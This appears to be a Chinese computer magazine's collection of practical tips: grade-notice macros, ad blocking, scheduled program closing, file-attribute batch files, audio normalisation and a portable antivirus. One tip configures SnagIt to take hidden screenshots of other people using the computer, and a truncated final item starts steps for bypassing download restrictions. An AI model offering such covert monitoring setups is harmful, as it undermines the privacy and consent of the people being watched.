| 14 | 0114 | 万迎欣 | 97 | 90 | 147 | 110 | 91 |
| 15 | 0115 | 王元元 | 93 | 99 | 138 | 102 | 93 |

| 序号 | 姓名 | 月考1 | 期中 | 月考2 | 期末 | 练考 |
|---|---|---|---|---|---|---|
| 1 | 0101 | 陈林 | 252 | 3 | 47 | 14 | 38 |
| 2 | 0102 | 李祖成 | 16 | 96 | 63 | 135 | 2 |
| 3 | 0103 | 崔艳娇 | 72 | 23 | 6 | 3 | 5 |
| 4 | 0104 | 吴琼 | 128 | 3 | 1 | 1 | 15 |
| 5 | 0105 | 李其 | 252 | 3 | 47 | 14 | 38 |
| 6 | 0106 | 蔡晓昕 | 40 | 86 | 5 | 3 | 75 |
| 7 | 0107 | 汤秋月 | 53 | 14 | 1 | 73 | 167 |
| 8 | 0108 | 徐欢 | 60 | 24 | 103 | 100 | 75 |
| 9 | 0109 | 华淑芳 | 72 | 8 | 55 | 14 | 5 |
| 10 | 0110 | 刘欣成 | 185 | 11 | 6 | 47 | 5 |
| 11 | 0111 | 边琪 | 185 | 77 | 103 | 100 | 125 |
| 12 | 0112 | 付玉爱 | 164 | 16 | 1 | 47 | 5 |
| 13 | 0113 | 赵悦 | 3 | 11 | 13 | 47 | 39 |
| 14 | 0114 | 万迎欣 | 1 | 53 | 139 | 135 | 167 |
| 15 | 0115 | 王元元 | 3 | 45 | 8 | 1 | 15 |

## 第二步：“通知书”的制作

- (1) 选择“工具”菜单中的“宏”下面的“Visual Basic编辑器”，进入代码编辑状态，如图4所示。
- (2) 在“Sheet1.(成绩)”处双击，在图中的①处选“Worksheet”，②处选“BeforeDoubleClick”，然后输入代码（具体代码可在“http://iask.sina.com.cn/u/ish?uid=1704202287”下载），选择“成绩”工作表中的BeforeDoubleClick事件，响应用户双击事件，以便创建考试成绩通知单。
- (3) 同理在“Sheet4.(评语)”处双击，选择“成绩”工作表中的BeforeDoubleClick事件，然后输入图5中的代码（具体代码可在“http://iask.sina.com.cn/u/ish?uid=1704202287”下载）。

## 第三步：通知单自动填写

通过双击“成绩”表中包含“姓名”的列中的非空单元格，即可将数据分别从“成绩”和“名次”工作表中自动复制到“通知书”工作表中，并根据名次绘出嵌入式图表，数据源取自历次名次单元格中的数据。如果双击包含“姓名”的列中的单元格是空的或是非“姓名”的列中其他单元格，则不会生成考试成绩通知单。

考试成绩通知单
学号 0105 姓名 李其 语文 93 代数 112 英语 106 物理 122 化学 80 总分 701
历次考试名次统计
| 月考名次 | 分数 | 名次 | 月考 | 期中 | 月考 | 期末 |
|---|---|---|---|---|---|---|
| 名次 | 252 | 3 | 47 | 14 | 38 |

在我看來，对生活，对我们周围的一切都应保持一种童稚的真诚与热情，动人心者莫不先于情，也许你不赞同我的意见，也许随着年龄的增长，你会慢慢理解这其中的道理，在即将分别之际，老师想送你一句话：扬起头，面对阳光，祝福别人也祝福自己。

班主任
2011年9月15日

（文/马震安）

# 去伪存真 横扫广告链接

人们常在网上找些有趣的小软件，有时不得不去一些小网站去下载。这些网站为了骗取流量往往设置很多迷惑性极大的假下载链接，一不小心就会让你误入圈套。但是，我不怕！

遨游出马，扫清浮云
我并不担心点错，因为有遨游3帮我自动拦截广告链接。
用IE打开http://www.edowning.net/soft/54301.htm，去下载里面的软件，你知道哪个才是真正的下载链接吗？
这么多链接看得我眼花缭乱，虽然可以一个一个去甄别，但既费时又费力。这时派遨游3出马吧。在http://www.maxthon.cn/遨游官网下载最新的遨游3浏览器，安装好后，在地址栏后面，切换到极速模式（广告拦截功能只在极速模式可用），就是一个黄色闪电标志。
打开刚才的测试网址，点击遨游右下方的广告猎手，勾选“启用弹窗拦截”、“过滤本站广告”、“订阅过滤规则”。
设置好后刷新下页面，这时一个清新的网页就出现了，广告和迷惑链接全消失了。

## 自己动手，丰衣足食

如果遨游没拦截成功广告，你可以试试手动过滤。同样点击右下角的广告猎手，选择“手动过滤广告”，用左键单击需要屏蔽的广告即可。如果广告点击不了，选择上方的“编辑过滤规则”，再左键单击广告，选择需要过滤的项目就行了。在编辑过滤规则窗口，选择一个自定义规则，点击下方的“分享选定站点规则”，还能将自己做的过滤规则分享给好朋友。

## 不用遨游，也能拦截

如果你习惯用IE等其他浏览器也没关系，我给您推荐金山卫士或金山毒霸，里面广告拦截模块的前身就是大名鼎鼎的金山网盾。这里以金山毒霸2011 SP7.2为例。
在上网保护那栏下面开启广告过滤，点击右边的订阅规则，启用所有的过滤规则。再用IE浏览以前那些广告横飞的网站，果然页面干净了许多。
（文/一方通行）

## 给应用程序设定闹钟（一）

就软件启动与关闭而言，虽然利用系统自带命令可以实现，但那只是解决问题，并没有实用价值。如果要让这种功能真正为大家带来便利，笔者觉得用Windows的计划任务功能定时启动、外加kiwi application monitor这款免费软件延时终止比较合适。

计划任务的设置比较简单，就不多说了。大家可以设置某个软件的具体启动时间，比如设置“暴风影音”在每天早九点定时启动。需要说明的是，该方法只能设置软件启动，而无法终止它。下面着重介绍一下怎样利用kiwi application monitor（下载地址：http://drinkprog.com/kiwi/dl.php）对软件“暴风影音”实施延时关闭。

- 第一步：添加软件。kiwi application monitor需要.NET 2.0支持。运行程序，单击Add按钮，打开添加程序对话框。单击Browse按钮，选择“暴风影音”的可执行文件打开，然后在右侧输入中文名称。

- 第二步：设置终止时间。在界面下方切换到Basic rules标签，在右侧Actions栏中，勾选Close it after running for复选框，然后在右侧输入具体的运行时间，比如30（分钟），单击Add按钮，将其添加到监控列表完成。

这样“暴风影音”在被计划任务启动后，可以看到主界面中的监控指示灯处于绿色，表明它已被kiwi application monitor监控起来。一旦到达指定的运行时间（30分钟，具体时间为九点半），即会被kiwi application monitor强制关闭。要对多个软件进行控制，也只要依此法单独设置就可以了。

(挑战者/赵毅仙)

## 给应用程序设定闹钟（二）

### 方法一：利用 Windows 自带命令实现

例如：要在7:00关闭QQ，在7:30关闭迅雷。可按以下方法实现：

在“记事本”中输入下列两行命令（斜体部分，注意空格）：

```
at 7:00 taskkill /f /im QQ.exe
at 7:30 taskkill /f /im thunder5.exe
```

保存文件为“定时关闭程序.bat”，然后双击运行，即可实现关闭程序。此方法是利用Windows自带的taskkill命令和at命令来实现定时关闭程序。taskkill命令和at命令的详细参数可在命令行中输入taskkill /?以及at /?来查看。

利用此方法，还有一点要注意，即“计划服务（Task Scheduler）”必须处于“已启动”状态。

### 方法二：利用软件实现

“细搜守候者”（http://xiazai.zol.com.cn/detail/34/331240.shtml）是一款免费软件，可以实现“多线程，多态自动控制”。多线程：可以同时运行无数个任务，繁简由人，并且在任务执行前，可以强力弹出友好的提示框，提醒你注意手上的工作；多态：友好大气的用户界面，让你随时随地全面了解任务信息，随意地操控任务的状态，随意的选择你喜欢的色调主题；自动：目前已有18种任务类型：定时关机、注销、重启、休眠、待机、屏保开关、显示器开关、锁屏、打开文件（如程序、音乐、文本等等）（夹）（网页）。

本文仅就题目要求做一下介绍，以定时关闭迅雷为例。运行“细搜守候者”后，点击“菜单→任务→创建任务→创建程序结束任务”。在“目标”中选择迅雷所在路径。点击“确定”后，在“任务控制”窗口进行设置，即在1小时后关闭迅雷程序，关闭前提示（可选，若选择该项，则在任务执行前，会在显示屏的右下角顺序弹出倒计时提示对话框）。

(挑战者/郑志杰)

## 巧用记事本 让文件 “走光”

出于修改文件设置或查找恶意软件的目的，有时，我们需要对具有隐含属性的文件进行操作。这时，往往需要开启显示系统隐含文件属性的功能，以使隐含文件全部露出真容；必要时还需要将具有隐含属性的某些文件设置为非隐含属性以便处理。同时，为了文件安全保护的需要，在查看或修改完毕后，我们还得用同样的设置来还原文件的原有属性。大家知道，这项工作需要通过“文件夹选项”和“属性”设置来完成，完成一项这样的设置需要点击许多次鼠标才能搞定，比较繁琐。针对这种情况，我借助记事本创建了两个小批处理文件，点一下就可以轻松去除或恢复文件属性。

### 一、建立批处理文件

批处理的建立过程十分简单，只需输入简单的一行命令，即便是没有一点程序知识的读者，也可以轻松照搬。

- 1. 文件（夹）显形批处理的建立

第一步：用记事本建立新文件，并在其中输入如下代码：

```
attrib * -s -h -r /s /d
```

第二步：将文件保存为“文件走光”，然后将文件扩展名改为.BAT。

- 2. 文件（夹）隐形批处理的建立

第一步：复制一份上面建立的“文件走光.BAT”文件并改名为“文件隐形.BAT”。

第二步：用记事本打开“文件隐形.BAT”文件，并将其中的参数中的3个“-”号都改为“+”号，成为如下一行命令：

```
attrib * +s +h +r /s /d
```

将如上建立的两个批处理文件保留备用。

小提示：

此法的关键是利用了Windows系统内置的attrib命令，强制修改文件或文件夹的属性，以达到显示或隐藏文件和文件夹的目的。该命令的语法格式如下：

```
ATTRIB [+R | -R] [+A | -A] [+S | -S] [+H | -H] [[drive:] [path] filename] [/S [/D]]
```

各参数具体解释如下：

+ 设置属性。
- 清除属性。
R 只读文件属性。
A 存档文件属性。
S 系统文件属性。
H 隐蔽文件属性。
[[drive:] [path] filename] 指定要处理的文件属性。
/S 处理当前文件夹及其子文件夹中的匹配文件。
/D 也处理文件夹。

注意事项：

请注意attrib命令中的空格，输入时如果丢失空格，就会造成语法错误，命令将无法运行。

### 二、让所有文件走光

如果你想让某磁盘下具有隐含属性的所有文件和文件夹都显示出来，只需拖动“文件走光.BAT”到这个磁盘或文件夹下执行一下，你就会马上看到，资源管理器窗口中该文件夹下的文件和文件夹都露出了真身。

### 三、让所有文件隐形

执行完必要的操作需要将文件或文件夹隐藏起来，或者想将自己指定的磁盘或文件夹下的文件全部隐藏起来，你只需拖动“文件隐形.BAT”到这个磁盘或文件夹下执行一下，你就会马上看到，资源管理器窗口中该文件夹下的文件和文件夹都不见了踪影。

小提示：

操作系统默认是不显示系统文件和隐含文件的。如果系统同时开启了显示系统文件和隐含文件的属性，那么上面的命令将不能发挥作用。

★ 拓展应用

你可以通过修改如上批处理文件中命令行中的有关参数，达到不同的应用目的。比如，你希望给自己编写的一些文档增加写保护功能，这时，你就可以把批处理中的命令改为“attrib * +r /s /d”，将批处理文件拷贝到你存放档案的文件夹中执行一下，该文件夹及其子文件夹下的所有文档都将被加上写保护属性，只能被读取，不能被修改。如果要解除写保护，只需在上面那个批处理的基础上复制一个文件出来，并将其中的命令参数中的+r改为-r执行即可。此外，通过/s和/d两个参数的灵活应用，可以指定是否处理文件夹以及文件夹下的各级子文件夹和文件。例如：/s/d表示处理本目录及其下各级子文件夹以及其中的文件；而/s只是表示处理各级子文件夹，但并不对文件夹的属性进行修改；/d则是表示处理本级文件夹的属性但不涉及到下级文件夹。

(文/杨光大刀)

## 看韩剧就用酷盘遥控下载

宅居看韩剧那可是多少人的梦想，尤其是最近的《咖啡屋》，帅气的主人公、揪心的剧情……但问题是电视台的策略让你一天仅仅欣赏那么一两集，吊你的胃口。

利用酷盘的实时同步让远在公司的你操纵家中的电脑下载，回家后只管欣赏就是了。

在家中的电脑上安装酷盘，设置其同步目录，并且建立“种子文件”目录，比如实际路径是“F:\我的酷盘\种子文件”。

安装欲下载韩剧的种子软件uTorrent（最好选择中文）。在设置界面选择“目录”，复选“自动载入Torrent于(A)：”和“删除载入的Torrent（D）”。选择种子文件下载的酷盘路径，这里选择前面建立好的“F:\我的酷盘\种子文件”。

在单位用与家中酷盘同样的账号登录酷盘，然后搜索到韩剧的种子文件，复制到前面建立好的酷盘“种子文件”夹下。家里的电脑已经开始下载了，还等什么，回家欣赏吧。

(文/段晓东)

## 不是耳机不好 而是听法不当

周末，我从网上给女儿下载了一个《中国历史故事》的MP3专辑，其中的每个故事独立成一个MP3文件。我把下载的该专辑拷贝到女儿的MP3中，给女儿收听。第二天，女儿就说耳机出了问题，听起来一惊一乍的——调节好第一首的音量时，后面接着播放下一首时音量就明显高低不一。由于是在上学路上收听，本来听着好好的，忽然出现音量太小的情况，或者音量突然变得震耳欲聋。这时，不得不掏出设备调节音量，真让人受不了。听到女儿的诉说，我马上意识到问题的所在，处理的方案也就基本确定下来——对曲目进行音量统一处理。

我选择了一款免费的调音软件MP3Gain作为调音工具。由于该软件在使用上有一些讲究，其中的几种增益方式的选择上，容易让没用过的人犯糊涂，所以我具体通过上面说的实例来讲述实现方法。

MP3Gain完成音乐效果增益的基本操作是通过导入、分析、增益三个步骤来完成的。

### 1. 歌曲音量分析

- 第一步：点击工具栏“添加文件”按钮，在对话框中选择需要调整的MP3文件并载入。如果要调整整个文件夹中包含的音乐，则用“添加文件夹”按钮。注：载入的文件可以是多个MP3文件，也可以是M3U列表文件。

- 第二步：当所有文件载入之后，我们在主窗口中选择所有的文件列表，这时点击“音轨分析”按钮。

开始自动音量分析结束后，通过列表项目中的“音量”一列，我们就能看到MP3Gain量化后的音量值。通过这些音量值，我们就能很直观地看出哪个文件的音量偏低，哪个文件的音量偏高。

### 2. 调整音量增益

系统默认提供的“89.0”是比较保守的音量设置。一般音乐正常的音量大小在“96~99”之间。从软件分析的结果来看，有的文件的音量显然太低，有的又比较高，因此放在同一目录下欣赏肯定有令人一惊一乍的不舒服的感觉。

现在，假如我们希望所有乐曲增益后的音量均为“100”，我们只需在主窗口中部的“对象标准化/最大化音量”中设置新的音量值为100，选择所有音乐，点击增益按钮列表中的“音轨增益”按钮，就可以开始进行转换了。转换结束后，我们可以看到软件窗口中列出的MP3文件的音量已经是基本上接近设定值了。

小提示：因软件没有提供原始文件的备份功能，为了避免因参数设置不当而影响转换效果，建议你在转换前先对音乐文件进行备份。

小知识：三种增益的区别应用 MP3Gain既可以调整单首MP3的音量，也可以平衡整张专辑的音量，还支持调节单个声道的音量。软件调整音量是通过三种增益方式实现的：音轨增益、专辑增益、常衡增益。这三种增益听起来很专业，那么，它们到底有何区别？在什么情况下用哪种增益？这个问题是需要我们一定要弄清楚的，否则调整后可能会得到错误的结果。下面我举例说明三种增益的区别。

假如有三首歌，MP3Gain分析的音量大小分别为：91、95、96，我们设置“对象标准化/最大化音量”值为98，如果采用“音轨增益”模式，那么所有MP3的值都将被调整到98；如果应用“专辑增益”模式，程序在将整张专辑的最高音量到你设定的值的同时，还将保持各首歌曲之间的音量差距，原来的91、95、96将对应变成93、97、98。该软件支持调节单个声道的音量，比如某些声音文件的音量可能是一个声道大一个声道小。首先，注意此功能只用于以立体声和双声道编码的MP3。调整单一声道需要先点击“更改增益→应用常恒增益”系统命令进行声道选择，在对话框中勾选“使用单一声道”，然后选择增益“左声道”还是“右声道”；之后，再通过工具栏的增益选择列表选择“常恒增益”命令，即可实现单一声道的效果增益。在实际生活中，当你对一张专辑的音量不满意时，也许你既想调高音量，又不希望打破原来专辑中歌曲之间的高低过渡效果，希望保持歌曲间音量的高低过渡值，那么你就需要选择“专辑增益”了。在特殊情况下，只需要对单声道进行调整的情况也是会遇到的，比如要弱化或强化伴奏，这时你就会用到“常衡增益”的功能。

(文/张思齐)

## 旁门左道 打造屏幕监控器

我离开期间谁动了我的电脑？干了些什么事情？也许你想知道这些。一般来说，实现这种需求需要安装某款专用的操作监控或屏幕监控软件。事实上，不需要去找专门的软件，手头上的工具也可以实现屏幕的使用监控。我只用人们最常用的抓图软件SnagIt就能搞定。

大家知道，抓图软件SnagIt安装后一般默认是开启自启动功能的，开机后有个图标在任务栏上，一般用电脑的人不会怀疑这个软件有什么不好的用途。但是，在你将这个软件做一番手脚之后，它就会暗暗监控屏幕的状态。当你离开电脑之后如果有人动了你的电脑，你到自己先前指定的文件夹下就会看到前面用户使用电脑的蛛丝马迹。下面我们讲述具体的屏幕监控打造过程。

### 第一步：设置文件自动命名规则并指定文件自动存放地址

抓图软件默认在抓图之后要求你指定图片名称和存放地址，这显然不能满足我们的要求。我们需要的是能在后台静默地自动保存文件，不能被使用者察觉。我们需要做如下设置：

选择SnagIt软件的“输出→文件”命令，让抓图以文件的形式保存；接着选择文件“属性”命令，在弹出的“输出属性”窗口中设置“图像文件”选项卡下的“文件名”一栏，选择“自动命名文件”，用其后的“选项”按钮设定自动命名规则。比如本例我们设置图片名称为日期加时间再加自动图号的显示方式，这样便于我们将来得知这张图片是“来宾”何时操作产生的；接下来，我们需要指定自动抓取图的图片文件存放的文件夹位置，选择“总是使用文件夹”一项，然后通过后面的文件夹按钮指定存放图片的文件夹。

以上全部设置完毕，两次确定之后，就完成了自动文件名的设置，以后软件接到抓图命令后，就会自动保存图片文件了。

### 第二步：设定自动抓图任务和抓图参数

接下来，我们要设置让软件定时自动执行抓取屏幕画面的操作。选择SnagIt“工具→计时器设置”命令，打开“计时器设置”对话窗口，选择“启用定时激活捕获”复选框，然后在下面的“周期”中指定自动捕获的周期，比如每隔10秒捕获一次；选择“放弃同样的捕获”以减少图片数量；进入“延时/计划”选项卡，勾选“启用延时/计划捕获”复选框，然后选中“计划捕获”单选框，在“日期”和“时间”输入框中设置开始自动截取屏幕的日期和时间。

小提示：记得要取消“输出”下拉菜单中“预览窗口”项前的复选钩，这样，当SnagIt截取图像后，就不会显示预览窗口，从而能更好地隐藏SnagIt。

### 第三步：设置捕获输入范围

抓图范围不能选“范围”，那样需要人为选择，会露出马脚。通过SnagIt的“输入”选项，将捕获输入范围设置为“屏幕”，这样，自动捕获画面时，会以整个屏幕为对象默默地进行抓图，你得到的序列图片便是全屏操作一览无余的画面了。

如上操作均设置完毕后，点击软件窗口的关闭按钮，按动你为SnagIt设置的抓图热键，软件会自动缩小到任务栏系统托盘上，默默为你履行监控服务了。

(文/刘芳)

## 放下身份 让系统运行更高效

我家的老“机”是三四年前请进家门的，现在单一运行很多大程序都很缓慢，更别说多任务处理了。经济危机的窘境又暂时不允许我添置新机。那么，有没有办法在开几个任务的情况下使机器保持一个可以接受的响应速度呢？经过一些尝试，笔者找到了一个巧妙的办法，只需要动手设置一下，就可以提高电脑的运行效率！

我们知道，任务处理要依靠CPU进行，而一个CPU的处理能力是有限的。现在的双核或者多核CPU的原理就是让CPU可以分别处理不同的任务，以提高运行效率。那么普通CPU怎么办呢？其实我们只需要反其道而行之，利用系统的“Windows任务管理器”，手动分配进程的优先级，让多任务的处理重新排排序，不要让那些不急着靠前运行的程序来抢占我们本来就已经紧张的系统资源，但还要保持它的运行状态。这样，就可以很大程度上提高CPU的使用和运行效率，从而达到提高电脑使用速度的目的。

我们拿抓图软件SnagIt为例，作为常用工具，这个软件一般是开机便一直运行着，并占用一个进程，它以“标准”的运行级别占用着系统资源（如图1）。但是，我们又不是时时刻刻都在使用这个软件，因此，这时我们就可以通过“Windows任务管理器”，将SnagIt进程的优先级设置为“低于标准”或者“低”（如图2）。这样，在我们挂着SnagIt的同时再运行其他程序，就会因为SnagIt所占进程的优先级已经降低，从而提高其他程序的运行效率，加快程序运行速度。

也许你会说对于SnagIt这样的程序来说只要关掉它，用时再启动不是更好吗？没错！然而，对于那些必须经常开着，又不是每时每刻都在使用的程序，比如QQ、MSN等消息类软件来说，完全关掉就不合适了。这时，你就可以用以上我所说的办法，把它们的运行级别统统设置为最低。这样，你的CPU的负担就会大大减轻，从而腾出空间来应对对你最急迫的任务了。

如果你也有一台老“机”还舍不得让它下岗，何不也试一试这一招呢？

(文/春华)





## 面子无小事 打造最抢眼的动态桌面背景

电脑的桌面背景如同人的脸面，唯有表情丰富才能吸引视线。静止的图片就算再美也会看腻，动态的元素即使再平凡也能抢眼。如果你的桌面背景缺乏活力，那就快随笔者一道，打造一个活灵活现的动感桌面。

### 一、发送 TA 的照片，贴在我的桌面

千思相思，将远方的TA的照片贴在桌面上，也免得牵肠挂肚了。但这首先需要索要照片，然后再设置为桌面壁纸，比较麻烦。其实我们只要利用Wallcast这个网站，让TA拍摄的近照直接利用手机或电脑上传，然后你的桌面就会自动出现她的照片了。

- 1. 上传初始背景
首先我们上传5张照片作为初始的桌面背景。进入网站（网址：http://www.wallcast.com/），单击Get Started按钮进行注册。注册完成自动登录到添加照片页面，分别单击Choose File按钮，选择五张格式为JPG、GIF或PNG的照片，单击Upload Photos按钮上传。

- 2. 下载安装软件
上传完毕进入好友邀请页面。先在页面中的五个文本框中输入好友的E-mail地址（如果想邀请更多好友，可单击Add More按钮添加文本框），再在下方的信息窗口中输入邀请信息，单击Invite按钮，在转入的网页中你将得到一个代码，将它复制后，单击“下载”按钮下载软件并完成安装。
接下来运行软件，在弹出的界面中粘贴上代码，单击Connect按钮，稍等一会儿，你的桌面便被设置的初始照片取代。

- 3. 桌面自动变脸
在发给别人的邀请中，包括一个E-mail地址，类似于XXX@wallcast.com，好友只有把照片以附件的形式发送到这个邮箱就可以了。而每隔一定时间，软件便会自动检测邮箱中的照片，并随机挑选五张在你的桌面上展示。
如果要更改照片的检测、切换时间，只需单击系统托盘区的程序图标，选择Settings命令打开设置界面，单击界面中的下拉箭头，选择新的切换时间，再单击OK按钮即可。
切换时间最短15分钟，最长1天。严格地说，这并不是真正的动感桌面，但比起那些生硬的本地幻灯、静止美图，无疑要温馨许多。

### 二、让心中的 TA，在桌面动起来

如果你心中有一个TA，那么以TA的形象做壁纸就是不二选择。为了使TA的形象不落俗套，就有必要利用Animated Wallpaper Maker（下载地址：http://backupm1ll.com/download/d/wp_maker.exe）这款软件，让照片成为动感十足的桌面背景。

- 1. 添加照片
打开程序界面后，软件已经自动新建了一个空白幻灯片。单击工具栏中的Change Background按钮，选择TA的照片打开，再单击Choose Effect文字右侧的下拉箭头，给照片添加一种动态效果，比如Underwater，这会产生照片在水中摇曳的效果。

- 2. 插入部件
该软件还提供了一些非常精美的动态部件，可以很好地装点画面。比如要在画面中插入一些小气泡，可以单击工具栏的Add Animation按钮，在打开的对象列表中选择Bubbles，单击OK按钮，这些气泡便在画面中显示出来。随后通过界面右侧的Object count和Object size选项，调节气泡的数量和大小即可。

有兴趣的话，你还可以为壁纸添加背景音乐，或者添加多张照片轮流播放。制作完成后，单击Set Wallpaper按钮，在打开的对话框中勾选Set this animation as my default desktop background选项，单击OK按钮。进入桌面你会发现，此时的桌面背景已经被灵动的TA所取代。

### 三、视频当桌面，好听又好看

其实要说起最有想像力的桌面背景，还要属视频壁纸。据说Vista系统有此功能，不过借助Video Wallpaper Master这款软件，使用Windows XP的朋友，也一样能够拥有视频壁纸。

Video Wallpaper Master（下载地址：http://www.desktoppaints.com/downloads/videowpm.exe）

具体方法是，运行该软件，自动弹出视频壁纸选择对话框，我们只需从中选择一个AVI、WMV或是MOV等格式的视频文件打开，该视频即会作为桌面背景开始播放。

要更改视频文件也很简单，右击托盘区的程序图标，选择Open命令，在打开的Open Media File对话框重新选择视频文件就可以了。这里，你可以将视频文件更换为TA的视频文件。

如果你想找一些现成的视频文件使用，该软件的官网提供了一些WMV格式的视频壁纸供下载。在右键菜单中选择Get more videos命令，在打开的网页中找到喜欢的视频壁纸，单击DOWNLOAD按钮将其下载即可。

（文/赵毅仙）

## 潜伏 偷听微博不让TA知道

现在腾讯微博非常火暴，大家都知道在里面如果谁收听了某人的微博，那么他的好友和你的好友都是可以查看的。但有时候是出于某些考虑，可能并不想被别人知道你收听了TA的微博，有什么办法可以实现呢？其实，你只需创建一个隐私名单就能潜伏到TA的微博中偷偷收听了。

先点击QQ面板中的“微博”按钮，进入自己的腾讯微博，然后打开“我的主页”，在网页中找到“我的名单”，点击旁边的倒三角形图标，在弹出的对话框中选择“创建”按钮，开始创建一个新的隐私名单。

在弹出“创建名单”对话框，在“名称”一栏中为新建的隐私名单随便输入一个名称，可以是1-13个中文、字母、数字、下划线或减号，如“guest”，此项为必填项，而下面的“描述”和“标签”为选填项，可以不填写。需要提醒的是下面的“浏览权限”模式的选择，一定要勾选“只有我自己可见”，最后点击“确定”，即可完成隐私名单的创建。

下面就可以秘密潜伏到别人的腾讯微博里面去偷偷收听了。打开要收听人的腾讯微博主页，单击网页中“名单”旁边的三角形图标，然后勾选你刚才创建的隐私名单“guest”名称就可以了，这样不仅被收听者将不会知道你收听了他，而且你的其他听众也不会知道，达到了潜伏的目的。

（文/贺全荣）

## 小周使用QQ电脑管家的幸福生活

作为办公室的文秘人员，小周每天接触最多的自然是计算机，或者是编辑文档，或者是处理邮件，很多时候还要安装上级部门指定的软件提交数据，搞得系统不堪重负，甚至还“被重装”操作系统，自己也非常的累。不过，自从小周安装了最新版本的QQ电脑管家，他的工作变得幸福起来，不仅系统得到全面优化，而且工作效率提高不少。

这不，我们一起来看看小周使用QQ电脑管家的三个绝招吧：

### 绝招一：不让网络速度捉襟见肘

作为办公一族，小周肯定是需要将工作放在首位，因此主要是在中午休息的时候做一些自己的事情，例如下载软件，浏览网页，聆听音乐，不过由于这个时候很多同事都在使用网络，因此总是感觉带宽不够用……

QQ电脑管家的“网速保护”功能，可以为腾讯旗下的应用程序保留宝贵的网络带宽。

切换到“工具箱”选项卡，依次选择“系统→网速保护”，或者也可以从主界面右侧的快速通道选择“流量监控”，随后会进入“管理网络流量→QQ电脑管家→网速保护”对话框，在这里可以选择“全部启用”，或者根据自己的需要选择需要启用的网速保护项目，简单拖曳滑块至右侧即可。

默认设置下，以后无论是使用QQ音乐在线聆听网络热歌，或是浏览网页，QQ电脑管家会为系统中所安装的浏览器、QQ音乐智能分配相应的网速，我们基本上都不需要担心流畅性的问题。

### 绝招二：重装系统不再可怕

常在河边走，哪有不湿鞋。重装系统并无为难之处，麻烦的是驱动程序的安装。小周由于工作的特殊性，很多软件只能安装在Windows XP下，因此部分硬件就需要手动安装驱动程序了，尴尬的是早已找不到驱动盘和驱动程序光盘，如果逐一从官网下载驱动程序，显然过于麻烦。

QQ电脑管家除了提供软件升级、卸载这些“软”功能之外，还可以快速安装驱动程序呢！从主界面的快速通道选择“硬件检测”，自动检测结束之后，我们可以看到当前计算机所有硬件的详细信息，包括CPU、主板、内存、显卡、显示器、硬盘、网卡、声卡等设备的信息，切换到“驱动安装”选项卡，在这里可以非常直观地了解到需要安装驱动程序的设备，单击“搜索驱动”按钮，找到驱动程序之后就可以进行安装。

驱动搞定之后，自然不能忘记系统补丁。在主界面中切换到“修复漏洞”选项卡，扫描之后会向我们报告需要修改的高危漏洞，直接单击“修复选中漏洞”按钮即可，这里还可以实时安装功能性更新补丁。

### 绝招三：不让外来设备轻易蹭网

出于系统安全的考虑，单位里所有的计算机都使用有线网络。经过领导的特批，信息中心为小周的办公室配置了一台无线路由器，主要是方便他们在开会时使用网络，但这样一来，难免会有一些外来的设备使用无线网络，甚至会有调皮的学生使用智能手机连接无线路由器，这可不太好。

从主界面的快速通道窗格选择“无线安全助手”，单击“立即启用”，QQ电脑管家会检测所有使用网络的设备，并显示存在蹭网嫌疑的可疑设备，这里除了展示当前使用网络的设备之外，还会显示包括机器名、MAC地址、IP地址等详细的信息。单击“允许该设备使用”按钮，可以让这些设备使用无线网络。如果希望取消某设备使用无线网络的资格，可以单击右上角的“已允许设备”按钮，此时会弹出“已允许设备”对话框，在这里取消允许就可以了。

据说，QQ电脑管家的后续版本还可以用有线连接查看无线设备呢，这可是小周期盼已久的功能哟。

## 绿化杀软 你也行

由于绿色杀毒软件不用安装就可以直接运行的特点，许多情况下可用它来应急查杀，例如当系统出现问题后用启动盘启动，再用优盘中的绿色杀软来查杀。保护原系统和数据。绿化杀软，许多人都认为这需要高深莫测，需要很强的技术。但是，这只是表面现象，当我们拨开表面的迷雾，一切都将变得很简单。下面，我们以绿化卡巴斯基KAV 2009来说明问题。首先说明，因为需要改动注册表，所以，我建议大家使用虚拟机，以防操作不慎对系统或杀毒软件有破坏。在此推荐VMware Workstation，最新版本号为8.0，原版即可，无需汉化。其次，我们还需要一款能够监控软件安装信息的软件，我在绿化过程中使用的是Total Uninstall（汉化版）。

工具准备妥当之后，我们就可以开始绿化之旅了！首先，我们下载卡巴斯基，我下载的是KAV 2009（顺便说一句，我最初是从系统里拷入的KIS 2009，可是因为缺少注册表而在虚拟机中被当作KAV 2009，因此我认为KIS与KAV是可以互相转化的），在虚拟机中选择“完全安装”，安装完毕后，打开“Total Uninstall”，可能需要一段时间的信息收集，稍等片刻即可。随后和卡巴斯基有关的文件、注册表都会在窗口中分层罗列出。我们看到，卡巴斯基在C盘的Windows的drivers目录下放置了一些驱动文件，同时也在系统中安装了两个服务。那么这些服务和驱动是干什么的呢？

我们选择“更改”或删除后重新安装，注意！这一次选择的是“自定义安装”，并且取消对所有监控的勾选，只保留“程序内核和扫描任务”即可。安装完毕后重启，再打开“Total Uninstall”，我们看到，这一次卡巴斯基没有安装任何服务与驱动文件，由此可见所有服务与驱动都是给保护模块用的，而我们制作绿色版的目的主要是为了应急，因此不太需要保护，故去掉。

卡巴斯基还写入了大量注册表，据本人实践，没有注册表卡巴斯基将丧失所有功能，因此各位便没有必要绕弯路了。根据Total Uninstall提供的数据找到卡巴斯基的两个注册表项，将两项导出（分别位于HKEY_LOCAL_MACHINE和HKEY_USERS）中至两个REG文件夹，然后将卡巴斯基的安装目录拷贝到桌面或者其他位置，然后卸载安装目录（不是桌面上的安装目录！），重新启动。重启后我们再打开桌面上拷贝的目录中的Avp.exe会发现弹出的这样一个窗口。由此可见，没有注册表是不行的。

当我们导入两个REG文件之后，卡巴斯基已经变回了日常的模样，此时我们只要更新病毒库就可以扫描了。（如果你想节约时间，也可以连同病毒库文件一起拷贝，位于C:\Documents and Settings\All Users\Application Data\Kaspersky Lab）

下面，我们就该研究卸载的问题了。同样，卸载也只需要一个REG文件。我们用记事本编辑先前的两个REG文件，在“编辑-替换”中输入“HKEY”，替换为“-HKEY”（不含引号），双击后注册表中的有关信息就会被清除。此时只需要删除文件/拔下USB设备即可。同时，如果没有特别顽强的病毒，不建议开启卡巴斯基的自我保护，以便于弹出U盘时通过结束卡巴斯基的AVP.exe进程。

好了，一个强大的卡巴斯基绿色版打造完毕了！

## 找出狗狗上被保护的资源

- 步骤1: 下载迅雷7.1.7.2244版本并安装（下载地址：http://tinyurl.com/44tbbxz），最新版迅雷不行，会被限制的。
- 步骤2: 下载“MD5 CID”插件（下载地址：http://tinyurl.com/3hefphm）。
- 步骤3: 解压后双击运行插件，弹出如图1的提示框，点击“安装”。
